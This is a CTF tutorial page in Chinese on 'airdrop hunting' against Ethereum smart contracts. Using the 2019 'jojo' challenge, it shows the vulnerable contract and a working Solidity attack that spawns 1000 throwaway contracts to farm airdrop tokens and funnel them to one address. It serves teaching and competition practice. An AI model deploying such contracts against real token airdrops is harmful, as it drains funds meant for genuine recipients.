 # Airdrop Hunting

## 原理
薅羊毛攻擊指使用多個不同的新賬戶來調用空投函數獲得空投幣並轉賬至攻擊者賬戶以達到財富累計的一種攻擊方式。這類攻擊方式較爲普通且常見，只要是有空投函數的合約都能夠進行薅羊毛。其中首個自動化薅羊毛攻擊出現在 [Simoleon](https://paper.seebug.org/646/) 上。

## 例子
以數字經濟大賽 2019 的 jojo 一題爲例，講解一下如何進行薅羊毛攻擊。題目合約的源碼如下：
```solidity
pragma solidity ^0.4.24;

contract jojo {
    mapping(address => uint) public balanceOf;
    mapping(address => uint) public gift;
    address owner;
        
    constructor()public{
        owner = msg.sender;
    }
    
    event SendFlag(string b64email);
    
    function payforflag(string b64email) public {
        require(balanceOf[msg.sender] >= 100000);
        emit SendFlag(b64email);
    }
    
    function jojogame() payable{
        uint geteth = msg.value / 1000000000000000000;
        balanceOf[msg.sender] += geteth;
    }
    
    function gift() public {
        assert(gift[msg.sender] == 0);
        balanceOf[msg.sender] += 100;
        gift[msg.sender] = 1;
    }
    
    function transfer(address to,uint value) public{
        assert(balanceOf[msg.sender] >= value);
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;
    }
    
}
```

可以發現我們需要滿足 balanceOf[msg.sender] >= 100000 纔可以得到 flag。

題目中有空投函數，每次空投可以使 balance 增加 100。

```solidity
function gift() public {
    assert(gift[msg.sender] == 0);
    balanceOf[msg.sender] += 100;
    gift[msg.sender] = 1;
}
```

並且也有轉賬函數，可以將 balance 轉給其他用戶。

```solidity
function transfer(address to,uint value) public{
    assert(balanceOf[msg.sender] >= value);
    balanceOf[msg.sender] -= value;
    balanceOf[to] += value;
}
```

那麼我們可以使用薅羊毛的攻擊方式，創建 1000 個臨時合約來調用空投函數，並轉賬給主合約來使得 balanceOf[msg.sender] >= 100000。

```solidity
contract attack{
    function attack_airdrop(int num){
        for(int i = 0; i < num; i++){
            new middle_attack(this);
        }
    }
    
    function get_flag(string email){
        jojo target = jojo(0xA3197e9Bc965A22e975F1A26654D43D2FEb23d36);
        target.payforflag(email);
    }
}


contract middle_attack{
    constructor(address addr){
        jojo target = jojo(0xA3197e9Bc965A22e975F1A26654D43D2FEb23d36);
        target.gift();
        target.transfer(addr,100);
    }
}
```

## 題目

### 數字經濟大賽 2019
- 題目名稱 jojo

### RoarCTF 2019
- 題目名稱 CoinFlip

### QWB 2019
- 題目名稱 babybet

### bctf 2018
- 題目名稱 Fake3d

!!! note
    注：題目附件相關內容可至 [ctf-challenges/blockchain](https://github.com/ctf-wiki/ctf-challenges/tree/master/blockchain) 倉庫尋找。

## 參考
- [首個區塊鏈 token 的自動化薅羊毛攻擊分析](https://paper.seebug.org/646/)
- [數字經濟大賽 2019 - jojo](https://github.com/beafb1b1/challenges/tree/master/szjj/2019_jojo)

